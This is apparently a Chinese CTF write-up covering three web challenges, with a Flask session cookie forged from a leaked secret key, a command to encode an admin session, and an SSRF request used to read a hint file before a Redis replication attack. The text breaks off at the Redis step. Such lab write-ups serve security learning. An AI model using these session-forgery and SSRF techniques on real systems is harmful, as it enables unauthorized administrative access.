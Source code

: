 ## 0x01[HarekazeCTF2019]Easy Notes

这个题目给了源码，用户又没有后端校验，所以我们很容易想到考session的反序列化，因为(sctf考烂了)。具体分析流程可以看网上的·wp，总结就是，需要伪造以下两点:

1. 文件名
2. 序列化的数据

## 0x02 [SWPU2019]Web3

访问任意路由发现的token:`keyqqqwwweee!@#$%^&*`,发现是伪造session。下面就是随便操作了。

```
.eJyrVspMUbKqVlJIUrJS8g1xLFeq1VHKLI7PyU_PzFOyKikqTdVRKkgsLi7PL0IojHIPy42MCCtOcbS1BWkoLU4tykvMTcWhoBYAbr4gMA.YdBAWg.vnOXIyBk7oZzGTjDV5lS5GVwXeo
```

解码之后，我们知道这才是我们需要的

```
{'id': b'1', 'is_login': True, 'password': 'admin', 'username': 'admin'}
```

运行命令

```
python .\flask_session_cookie_manager3.py encode -s 'keyqqqwwweee!@#$%^&*' -t "{'id': b'1', 'is_login': True, 'password': 'admin', 'username': 'admin'}"
```

![image-20220101195442108](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220101195442108.png)

不知道为什么会这样，题目估计配置多少有点问题了。

## 0x03 [网鼎杯 2020 玄武组]SSRFMe

读取hint.php

```
http://a2f4f36b-1930-46a5-b853-1b9830b9b342.node4.buuoj.cn:81/?url=http://0.0.0.0/hint.php
```

```
string(1342) " <?php
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){
  highlight_file(__FILE__);
}
if(isset($_POST['file'])){
  file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);
}
"
```

知道了这是ssrf打redis。盲猜是打主从复制了。

`$match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);`这个提醒太明显了，差评

开始打。运行一个假的redis，然后
